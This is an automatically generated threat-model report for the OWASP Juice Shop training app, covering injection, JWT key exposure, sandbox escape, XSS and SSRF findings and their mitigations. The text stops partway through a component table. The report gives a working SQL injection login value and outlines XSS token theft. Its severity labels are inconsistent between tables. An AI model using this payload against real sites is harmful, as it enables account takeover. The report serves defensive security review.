# Threat Model - Juice Shop

_Generated by appsec-advisor v0.4.0-beta (analysis v2)_


---

> | | |
> |---|---|
> | **Project** | Juice Shop v19.2.1 |
> | **Description** | Probably the most modern and sophisticated insecure web application |
> | **Author** | Björn Kimminich <bjoern.kimminich@owasp.org> (https://kimminich.de) |
> | **License** | MIT |
> | **Repository** | https://github.com/juice-shop/juice-shop |
> | **Homepage** | https://owasp-juice.shop |
> | **Runtime** | Node.js 20 - 24, Express 4 |
> | **Tags** | web security, web application security, webappsec, owasp, pentest, pentesting, security, vulnerable, vulnerability, broken, bodgeit, ctf, capture the flag, awareness |

---

## Changelog

_Append-only history of assessment runs. Most recent first._

| Version | Date | Mode | Depth | Reasoning | Baseline → Current | Δ Threats | Code | Note |
|--------|----------|--------|--------|--------------|------------------|----------------|--------|--------|
| v1 | 2026-06-06 | full | standard | sonnet-economy | _(initial)_ | +38 / ~0 / -0 | - | - |

---

## Table of Contents

- [Management Summary](#management-summary)
- [Critical Attack Tree](#critical-attack-tree)
1. [System Overview](#1-system-overview)
   - [Scope](#scope)
- [1.5 Identified Actors](#15-identified-actors)
2. [Architecture Diagrams](#2-architecture-diagrams)
   - [2.1 System Context](#21-system-context)
   - [2.2 Container Architecture](#22-container-architecture)
   - [2.3 Components](#23-components)
   - [2.4 Technology Architecture](#24-technology-architecture)
3. [Attack Walkthroughs](#3-attack-walkthroughs)
   - [3.1 Derived Password from OAuth Emai……](#31-derived-password-from-oauth-emai)
   - [3.2 JWT Algorithm Confusion Missing algorithms Allowlist…](#32-jwt-algorithm-confusion-missing-algorithms-allowlist)
   - [3.3 SQL Injection (routes/login.ts:34)](#33-sql-injection-routeslogints34)
   - [3.4 SQL Injection (routes/search.ts:23)](#34-sql-injection-routessearchts23)
   - [3.5 Hardcoded RSA Private Key (lib/insecurity.ts:23)](#35-hardcoded-rsa-private-key-libinsecurityts23)
   - [3.6 Hardcoded RSA Private Key in Source Code lib/insecurity.ts:…](#36-hardcoded-rsa-private-key-in-source-code-libinsecurityts)
   - [3.7 JavaScript Sandbox Escape via notevil…](#37-javascript-sandbox-escape-via-notevil)
4. [Assets](#4-assets)
5. [Attack Surface](#5-attack-surface)
   - [5.1 Unauthenticated Entry Points (13)](#51-unauthenticated-entry-points-13)
   - [5.2 Authenticated Entry Points (6)](#52-authenticated-entry-points-6)
7. [Security Architecture](#7-security-architecture)
   - [7.1 Security Control Overview](#71-security-control-overview)
   - [7.2 Identity and Authentication Controls](#72-identity-and-authentication-controls)
   - [7.3 Session and Token Controls](#73-session-and-token-controls)
   - [7.4 Authorization Controls](#74-authorization-controls)
   - [7.5 Query Construction and Data Access Controls](#75-query-construction-and-data-access-controls)
   - [7.6 Input Boundary Validation Controls](#76-input-boundary-validation-controls)
   - [7.7 Output Encoding and Rendering Controls](#77-output-encoding-and-rendering-controls)
   - [7.8 Browser and Cross-Origin Controls](#78-browser-and-cross-origin-controls)
   - [7.9 Cryptography Secrets and Data Protection](#79-cryptography-secrets-and-data-protection)
   - [7.10 File Parser and Outbound Request Controls](#710-file-parser-and-outbound-request-controls)
   - [7.11 Operations Runtime and Supply Chain Controls](#711-operations-runtime-and-supply-chain-controls)
   - [7.12 Real-time and Not Applicable Controls](#712-real-time-and-not-applicable-controls)
   - [7.13 Defense-in-Depth Summary](#713-defense-in-depth-summary)
8. [Findings Register](#8-findings-register)
9. [Abuse Cases](#9-abuse-cases)
10. [Mitigation Register](#10-mitigation-register)
11. [Out of Scope](#11-out-of-scope)
- [Appendix: Run Statistics](#appendix-run-statistics)
- [Appendix A - Vektor Taxonomy](#appendix-a-vektor-taxonomy)

> _Section numbering is non-contiguous: §6 was retired in a prior revision. The remaining sections keep their original numbers so existing cross-references stay valid._

---

## Management Summary

### Verdict

🔴 Juice Shop is not production-ready. Anyone who clones the public repository can forge admin JWTs, bypass the login endpoint with a one-line SQL injection, and execute arbitrary Node.js code through the B2B order endpoint. None of these paths require prior access or elevated privilege.

**Risk distribution:** 🔴 Critical: 7 · 🟠 High: 23 · 🟡 Medium: 6 · 🟢 Low: 2 · **Total: 38**

<br/>

**The highest-impact attack paths the assessment found:**

<blockquote style="border-left: 3px solid #dc2626; background: #fef2f2; padding: 16px 20px; margin: 0;">

- **Full application takeover via forged JWT** — The RSA private key used to sign all session tokens is hardcoded at `lib/insecurity.ts:23` and committed to the public repository. Any caller who clones the repo can mint a token with `role=admin` and hit every protected endpoint. *(🔴 [F-005](#f-005) — Hardcoded RSA Private Key (lib/insecurity.ts:23), 🔴 [F-006](#f-006) — Hardcoded RSA Private Key in Source Code lib/insecurity.ts:23, 🔴 [F-002](#f-002) — JWT Algorithm Confusion Missing algorithms Allowlist (lib/insecurity.ts:54))*
- **Unauthenticated admin access via SQL injection** — `req.body.email` flows unescaped into a raw `models.sequelize.query()` call at `routes/login.ts:34`. Submitting `admin@juice-sh.op'--` short-circuits the password check and returns the seeded admin row with a valid JWT. *(🔴 [F-003](#f-003) — SQL Injection (routes/login.ts:34), 🔴 [F-004](#f-004) — SQL Injection (routes/search.ts:23))*
- **Arbitrary server-side code execution via B2B endpoint** — The B2B order handler passes `body.orderLinesData` directly into `vm.runInContext(safeEval(...))` at `routes/b2bOrder.ts:23`. The `notevil` sandbox has documented escape paths; a JWT-authenticated attacker reaches the host Node.js process. *(🔴 [F-007](#f-007) — JavaScript Sandbox Escape via notevil (routes/b2bOrder.ts:23))*
- **Stored XSS propagating admin account takeover** — `about.component.ts:119` calls `bypassSecurityTrustHtml()` to render user feedback content. An attacker plants a persistent XSS payload that steals the admin session token from `localStorage` on the admin's next page load. *(🔴 [F-010](#f-010) — Stored XSS via Feedback Comment… (frontend/src/app/about/about.component.ts:119), 🟠 [F-019](#f-019) — Insecure Token Storage (frontend/src/app/Services/request.interceptor.ts))*
- **Predictable OAuth account credentials** — `oauth.component.ts:46` derives each user's login password as `btoa(email.split('').reverse().join(''))`. Anyone who knows a target email address can authenticate as that user without OAuth interaction. *(🔴 [F-001](#f-001) — Derived Password from OAuth Emai… (frontend/src/app/oauth/oauth.component.ts:46))*

</blockquote>

<br/>

Addressing the committed private key, raw SQL injection paths, and the B2B eval endpoint removes the three independent routes to full compromise. The remaining High findings - XSS, NoSQL injection, SSRF, and missing authorization checks - should follow as a second priority.

**Attack-chain analysis.** 2 findings anchor 2 code-verified attack chains (see [§9](#9-abuse-cases) Abuse Cases): 🔴 [F-002](#f-002) — JWT Algorithm Confusion Missing algorithms Allowlist (lib/insecurity.ts:54), 🔴 [F-028](#f-028) — Missing Ownership Check on Review Update (routes/updateProductReviews.ts:18). 1 of these is rated above its individual baseline as a direct result of the verified chain.

### Security Posture & Top Threats

**Figure 1 - Architecture, Trust Boundaries & Threats**

Components grouped by trust boundary (architecture tier). Grey edges are the legitimate request backbone. **Solid red** edges are attacker-controlled attacks - each originates at a threat actor and lands on the component it directly reaches. **Dotted red** edges are the consequence path: how that attack propagates through the application tier onto the data tier or the victim. Each red edge carries the threat glyph(s) - the same numbering as Figure 2 and the Top Threats table below.



_Threats: ① Injection · ② Auth Bypass · ③ Priv-Esc · ④ Secret Exposure · ⑤ RCE · ⑥ XSS_

_Component badge: 🔴 = number of Critical findings on the component · 🟠 = number of High findings. Components with no Critical/High finding carry no badge._

**Figure 2 - Risk Flow: Actor → Tier → Impact**

Heatmap: **actors** (left) → **architecture tiers** (middle, Client → Application → Data) → **impact** (right). Numbered red arrows ①–⑥ are the threats enumerated in the Top Threats table below. Self-registration is open, so the **Authenticated Internet Attacker** tier is one POST away from anonymous - it is shown distinctly because a post-login endpoint is still a different attack surface.



**Threat actors.** The actors below drive the numbered attack paths in the figures above; the Shop User is the *victim* of client-side attacks (XSS / CSRF), not an attacker.

- **Shop User** — legitimate customer; target of client-side attacks; target of ⑥ Output Encoding / Cross-Site Scripting.
- **Anonymous Internet Attacker** — no account; registers in seconds when needed; drives ① Insecure Query Construction & Data Access, ② Hardcoded Secrets & Weak Cryptography, ③ Broken Authorization & Access Control, ④ Sensitive File & Secret Exposure, ⑤ Remote Code Execution (unsafe eval).

**6 structural threats**, grouped by weakness class - each row is one threat, not one finding. *Threat Description* states the general architectural weakness (STRIDE in brackets); *Findings* lists the concrete instances, each linked to [§8 Findings Register](#8-findings-register) with its component; *Risk & Impact* combines severity with business consequence.

| # | Threat Description | Findings (→ Component) | Risk & Impact | Fix |
|---|------------------------------------|------------------------------------------------|------------------------------------|--------|
| <a id="path-injection"></a>① | **Insecure Query Construction & Data Access**<br/>_(T·I)_<br/>user input flows into a server-side<br/>interpreter (SQL, NoSQL, XML, YAML, LDAP, OS<br/>shell) without parameterisation or schema<br/>validation. | •&nbsp;🔴&nbsp;[F-003](#f-003) — SQL Injection (routes/login.ts:34) →&nbsp;[C-01](#c-01)<br/>•&nbsp;🔴&nbsp;[F-004](#f-004) — SQL Injection (routes/search.ts:23) →&nbsp;[C-01](#c-01)<br/>•&nbsp;🟠&nbsp;[F-014](#f-014) — NoSQL Injection via \$where Clause (routes/showProductReviews.ts:36) →&nbsp;[C-01](#c-01)<br/>•&nbsp;🟠&nbsp;[F-015](#f-015) — NoSQL Injection via \$where Clause (routes/trackOrder.ts:18) →&nbsp;[C-01](#c-01)<br/>•&nbsp;🟠&nbsp;[F-016](#f-016) — XML External Entity Injection in File Upload →&nbsp;[C-01](#c-01)<br/>•&nbsp;🟠&nbsp;[F-024](#f-024) — Event Loop Blocking via NoSQL \$where Injection (routes/showProductReviews.ts:23) →&nbsp;[C-01](#c-01)<br/>•&nbsp;🟡&nbsp;[F-035](#f-035) — Database Schema Exposure via sqlite_master Query (routes/search.ts:47) →&nbsp;[C-01](#c-01) | 🔴 **Critical**<br/>Customer Data Exfiltration | ❶ [M-007](#m-007) — Replace raw SQL login query with parameterized Sequelize query<br/>❶ [M-008](#m-008) — Replace raw search query with parameterized Sequelize LIKE query |
| <a id="path-auth-bypass"></a>② | **Hardcoded Secrets & Weak Cryptography**<br/>_(S·E)_<br/>authentication can be circumvented or forged<br/>because credentials, signing keys, or<br/>password hashes are weak, missing, or<br/>exposed. | •&nbsp;🔴&nbsp;[F-002](#f-002) — JWT Algorithm Confusion Missing algorithms Allowlist (lib/insecurity.ts:54) →&nbsp;[C-01](#c-01)<br/>•&nbsp;🔴&nbsp;[F-005](#f-005) — Hardcoded RSA Private Key (lib/insecurity.ts:23) →&nbsp;[C-01](#c-01)<br/>•&nbsp;🔴&nbsp;[F-006](#f-006) — Hardcoded RSA Private Key in Source Code →&nbsp;[C-01](#c-01)<br/>•&nbsp;🟠&nbsp;[F-020](#f-020) — Weak Password Hashing (lib/insecurity.ts:43) →&nbsp;[C-01](#c-01)<br/>•&nbsp;🟠&nbsp;[F-021](#f-021) — MD5 Used for Password Hashing →&nbsp;[C-01](#c-01) | 🔴 **Critical**<br/>Full Admin Takeover · Customer Data<br/>Exfiltration | ❶ [M-006](#m-006) — Pin expressJwt to algorithms: ['RS256'] in lib/insecurity.ts<br/>❶ [M-009](#m-009) — Load RSA private key from an environment variable or secret manager in lib/insecurity.ts |
| <a id="path-privilege-escalation"></a>③ | **Broken Authorization & Access Control**<br/>_(E·I)_<br/>authorisation checks are absent or<br/>bypassable, allowing horizontal and vertical<br/>privilege jumps from a self-registered or<br/>low-rights account. Includes mass-assignment<br/>of privileged attributes. | •&nbsp;🟠&nbsp;[F-028](#f-028) — Missing Ownership Check on Review Update (routes/updateProductReviews.ts:18) →&nbsp;[C-01](#c-01)<br/>•&nbsp;🟠&nbsp;[F-029](#f-029) — NoSQL Mass Update Allows Any User to Overwrite All Reviews routes/updateProduct… →&nbsp;[C-01](#c-01)<br/>•&nbsp;🟡&nbsp;[F-034](#f-034) — Docker build uses unsafe perm flag →&nbsp;[C-01](#c-01)<br/>•&nbsp;🟢&nbsp;[F-038](#f-038) — User Controlled UserId in Memory Creation (routes/memory.ts:15) →&nbsp;[C-04](#c-04) | 🟠 **High**<br/>Full Admin Takeover · Customer Data<br/>Exfiltration | ❷ [M-031](#m-031) — Add author ownership check to review update query<br/>❷ [M-032](#m-032) — Add review ownership check and disable multi-document update in product review handler |
| <a id="path-sensitive-data-exposure"></a>④ | **Sensitive File & Secret Exposure** _(I)_<br/>confidential files, credentials, and<br/>management-plane endpoints are reachable on<br/>unauthenticated routes; SSRF lets the server<br/>fetch internal resources on the attacker's<br/>behalf; unsafe path-handling primitives leak<br/>server content. | •&nbsp;🟠&nbsp;[F-022](#f-022) — Server Side Request Forgery via Profile Image URL routes/profileImageUrlUpload.… →&nbsp;[C-01](#c-01)<br/>•&nbsp;🟠&nbsp;[F-030](#f-030) — Path Traversal via Archive Extraction (routes/fileUpload.ts:42) →&nbsp;[C-04](#c-04)<br/>•&nbsp;🟡&nbsp;[F-036](#f-036) — Open Redirect Allowlist Bypass via URL Substring Match →&nbsp;[C-01](#c-01) | 🟠 **High**<br/>Customer Data Exfiltration | ❷ [M-025](#m-025) — Enforce URL scheme and host allowlist before fetching profile image URLs<br/>❷ [M-033](#m-033) — Normalize ZIP entry paths and enforce a strict allowlist prefix before writing |
| <a id="path-remote-code-execution"></a>⑤ | **Remote Code Execution (unsafe eval)** _(E)_<br/>user-supplied data reaches a server-side<br/>code-execution sink (`eval`, sandbox<br/>primitives, deserialisation,<br/>prototype-pollution gadgets) and breaks out<br/>into arbitrary native execution. | •&nbsp;🔴&nbsp;[F-007](#f-007) — JavaScript Sandbox Escape via notevil (routes/b2bOrder.ts:23) →&nbsp;[C-05](#c-05) | 🔴 **Critical**<br/>Full Server Compromise · Customer Data<br/>Exfiltration · Full Admin Takeover | ❶ [M-011](#m-011) — Replace safeEval with a strict JSON schema parser for orderLinesData in routes/b2bOrder.ts |
| <a id="path-cross-site-scripting"></a>⑥ | **Output Encoding / Cross-Site Scripting**<br/>_(T·I)_<br/>attacker-controlled content is rendered in<br/>the victim's browser without sanitisation;<br/>combined with session tokens held in<br/>JavaScript-readable storage, any payload<br/>yields immediate account takeover. | •&nbsp;🟠&nbsp;[F-010](#f-010) — Stored XSS via Feedback Comment… (frontend/src/app/about/about.component.ts:119) →&nbsp;[C-02](#c-02)<br/>•&nbsp;🟠&nbsp;[F-011](#f-011) — Missing Content Security Policy (frontend/src/) →&nbsp;[C-02](#c-02)<br/>•&nbsp;🟠&nbsp;[F-012](#f-012) — DOM XSS via document… (frontend/src/app/data export/data export.component.ts:71) →&nbsp;[C-02](#c-02)<br/>•&nbsp;🟠&nbsp;[F-013](#f-013) — DOM Based XSS v… (frontend/src/app/search result/search result.component.ts:170) →&nbsp;[C-02](#c-02)<br/>•&nbsp;🟠&nbsp;[F-019](#f-019) — Insecure Token Storage (frontend/src/app/Services/request.interceptor.ts) →&nbsp;[C-02](#c-02)<br/>•&nbsp;🟡&nbsp;[F-033](#f-033) — Stored XSS via L… (frontend/src/app/last login ip/last login ip.component.ts:39) →&nbsp;[C-02](#c-02) | 🟠 **High**<br/>Customer Session Hijack | ❷ [M-014](#m-014) — Sanitize feedback comments server-side and remove bypassSecurityTrustHtml in About and Administration components<br/>❷ [M-015](#m-015) — Implement Content-Security-Policy header with strict script-src allowlist |

_STRIDE: S spoofing · T tampering · R repudiation · I information disclosure · D denial of service · E elevation of privilege. Risk, findings, components, impact and Fix are derived deterministically; only the one-line weakness description is authored._

**Verified attack chains.** 2 fully viable ([AC-T-004](#ac-t-004), [AC-T-005](#ac-t-005)); 1 partially blocked ([AC-T-006](#ac-t-006)). These chains combine individual findings into end-to-end exploitation paths verified step-by-step against the code - see [§9 Abuse Cases](#9-abuse-cases) for the per-step breakdown and blocking mitigations.

### Top Mitigations

Highest-impact P1/P2 mitigations - 10 of 29 qualifying (39 total). Full detail in [§10 Mitigation Register](#10-mitigation-register). All 9 mitigation(s) that fix a Critical finding are always listed here.

| # | Component | Mitigation | Addresses | Effort |
|---|----------------------|------------------------------------------------|------------------------------------------------|------|
| **1** | [C-01](#c-01) — Express Backend API | ❶ [M-002](#m-002) — Rotate committed secrets and adopt runtime secret management | 🔴 [F-005](#f-005) — Hardcoded RSA Private Key (lib/insecurity.ts)<br/>🔴 [F-006](#f-006) — Hardcoded RSA Private Key in Source Code (lib/insecurity.ts, "JWT signing key")<br/>🟠 [F-020](#f-020) — Weak Password Hashing (lib/insecurity.ts)<br/>🟠 [F-021](#f-021) — MD5 Used for Password Hashing (lib/insecurity.ts, "password field in Users table") | Medium |
| **2** | [C-01](#c-01) — Express Backend API | ❶ [M-001](#m-001) — Establish centralized parameterized query layer to eliminate all injection paths | 🔴 [F-003](#f-003) — SQL Injection (routes/login.ts, "email")<br/>🔴 [F-004](#f-004) — SQL Injection (routes/search.ts, "q")<br/>🔴 [F-014](#f-014) — NoSQL Injection via \$where Clause (routes/showProductReviews.ts, "id")<br/>🔴 [F-015](#f-015) — NoSQL Injection via \$where Clause (routes/trackOrder.ts, "id") | High |
| **3** | [C-01](#c-01) — Express Backend API | ❶ [M-006](#m-006) — Pin expressJwt to algorithms: ['RS256'] in lib/insecurity.ts | 🔴 [F-002](#f-002) — JWT Algorithm Confusion Missing algorithms Allowlist (lib/insecurity.ts, "Authorization") | Low |
| **4** | [C-01](#c-01) — Express Backend API | ❶ [M-007](#m-007) — Replace raw SQL login query with parameterized Sequelize query | 🔴 [F-003](#f-003) — SQL Injection (routes/login.ts, "email") | Low |
| **5** | [C-01](#c-01) — Express Backend API | ❶ [M-008](#m-008) — Replace raw search query with parameterized Sequelize LIKE query | 🔴 [F-004](#f-004) — SQL Injection (routes/search.ts, "q") | Low |
| **6** | [C-01](#c-01) — Express Backend API | ❶ [M-009](#m-009) — Load RSA private key from an environment variable or secret manager in lib/insecurity.ts | 🔴 [F-005](#f-005) — Hardcoded RSA Private Key (lib/insecurity.ts) | Medium |
| **7** | [C-01](#c-01) — Express Backend API | ❶ [M-010](#m-010) — Remove hardcoded private key and load it from environment or secrets manager at runtime | 🔴 [F-006](#f-006) — Hardcoded RSA Private Key in Source Code (lib/insecurity.ts, "JWT signing key") | Medium |
| **8** | [C-05](#c-05) — B2B Order API | ❶ [M-011](#m-011) — Replace safeEval with a strict JSON schema parser for orderLinesData in routes/b2bOrder.ts | 🔴 [F-007](#f-007) — JavaScript Sandbox Escape via notevil (routes/b2bOrder.ts, "orderLinesData") | Medium |
| **9** | [C-01](#c-01) — Express Backend API | ❷ [M-024](#m-024) — Replace MD5 password hashing with bcrypt or Argon2 | 🟠 [F-020](#f-020) — Weak Password Hashing (lib/insecurity.ts)<br/>🟠 [F-021](#f-021) — MD5 Used for Password Hashing (lib/insecurity.ts, "password field in Users table") | Medium |
| **10** | [C-02](#c-02) — Angular SPA Frontend | ❷ [M-005](#m-005) — Replace deterministic email-derived password with server-side OAuth-account linking and randomized credentials | 🔴 [F-001](#f-001) — Derived Password from OAuth Emai… (frontend/src/app/oauth/oauth.component.ts, "password") | High |

*19 additional P1/P2 mitigations capped from the leader-board · 10 P3 backlog items in [§10 Mitigation Register](#10-mitigation-register). Sorted by priority (P1 first), then component, then leverage (most findings first), severity (Critical first), and effort (Low first).*

### Operational Strengths

Operational controls rated Adequate or Partial - grouped into broad clusters (full per-control breakdown in [§7](#7-security-architecture)). Clusters demoted to Weak by open Critical/High findings appear in [§7](#7-security-architecture) instead, not here.

| Strength | What's in Place | Effectiveness | Gap | Mitigates |
|----------------------|----------------------|-------------|----------------------|----------------|
| **Container & Supply-Chain Hardening** | _Build-time and runtime hardening - minimal<br/>base image, non-root execution, dependency<br/>inventory._<br/>Container Security<br/>Automated SCA scanning | ✅ Adequate | - | - |
| **Observability & Audit** | _Runtime visibility - access logging, audit<br/>trails, and operational telemetry for<br/>post-incident review._<br/>Observability and Logging | ⚠️ Partial | Coverage incomplete - see [§7](#7-security-architecture) control assessment. | - |


**Bottom line:** These controls narrow specific attack surfaces but none eliminates a Critical finding on its own.

---

<a id="critical-attack-chain"></a><a id="critical-attack-tree"></a>
## Critical Attack Tree

The root is the worst-case attacker goal; below it, each capability branch groups the Critical findings that achieve it. Branches feed the goal by OR - any single path suffices.



**Findings** (full detail in [§8 Findings Register](#8-findings-register)): 🔴 [F-005](#f-005) — Hardcoded RSA Private Key (lib/insecurity.ts:23) Hardcoded RSA private key · 🔴 [F-006](#f-006) — Hardcoded RSA Private Key in Source Code lib/insecurity.ts:23 Hardcoded RSA key source · 🔴 [F-002](#f-002) — JWT Algorithm Confusion Missing algorithms Allowlist (lib/insecurity.ts:54) JWT algorithm confusion · 🔴 [F-007](#f-007) — JavaScript Sandbox Escape via notevil (routes/b2bOrder.ts:23) `notevil` sandbox escape · 🔴 [F-003](#f-003) — SQL Injection (routes/login.ts:34) SQL injection login · 🔴 [F-004](#f-004) — SQL Injection (routes/search.ts:23) SQL injection search · 🔴 [F-001](#f-001) — Derived Password from OAuth Emai… (frontend/src/app/oauth/oauth.component.ts:46) Predictable OAuth password

---

## 1. System Overview

Probably the most modern and sophisticated insecure web application

**Repository:** https://github.com/juice-shop/juice-shop
**Runtime:** Node\.js 20 - 24

### Scope

This threat model covers 5 components of juice-shop: **Express Backend API**, **Angular SPA Frontend**, **Data Layer**, **File Upload Service**, **B2B Order API**.

**Out of scope:** third-party hosted dependencies, browser runtime, operating-system kernel, and the underlying network infrastructure.

---

## 2. Architecture Diagrams

### 2.1 System Context

Who interacts with juice-shop from the outside, and through which channels. Solid arrows show normal usage; dashed red arrows mark unauthenticated probing or exploit paths (C4 Level 1).



### 2.2 Container Architecture

How the system decomposes into deployable units. Each box is a separate runtime process or service container; arrows show synchronous request paths between them. Components with ≥3 Critical findings carry a red border, ≥2 High amber (C4 Level 2).



### 2.3 Components


Who reaches each component, and through which trust zone. Four columns map external actors to the internal tiers (Client / Application / Data); solid green arrows show legitimate data flow, dashed red arrows mark intrusion vectors. The component table directly below holds source paths and linked threats per `C-NN`; per-finding evidence is in [§8 Findings Register](#8-findings-register).


| ID | Name | Type | Key Paths | Linked Threats |
|----|--------------------|-----------|--------------------------------|------------------------------------------------|
| <a id="c-01"></a><a id="express-backend"></a>C-01 | Express Backend API | application | `server.ts`<br/>`routes/**`<br/>`lib/**`<br/>`app.ts` | 🔴 [F-002](#f-002) — JWT Algorithm Confusion Missing algorithms Allowlist (lib/insecurity.ts:54)<br/>🔴 [F-003](#f-003) — SQL Injection (routes/login.ts:34)<br/>🔴 [F-004](#f-004) — SQL Injection (routes/search.ts:23)<br/>🔴 [F-005](#f-005) — Hardcoded RSA Private Key (lib/insecurity.ts:23)<br/>🔴 [F-006](#f-006) — Hardcoded RSA Private Key in Source Code<br/>🔴 [F-009](#f-009) — Missing Authentication on File Upload Endpoint (server.ts:309)<br/>🔴 [F-014](#f-014) — NoSQL Injection via \$where Clause (routes/showProductReviews.ts:36)<br/>🔴 [F-015](#f-015) — NoSQL Injection via \$where Clause (routes/trackOrder.ts:18)<br/>🟠 [F-016](#f-016) — XML External Entity Injection in File Upload<br/>🟠 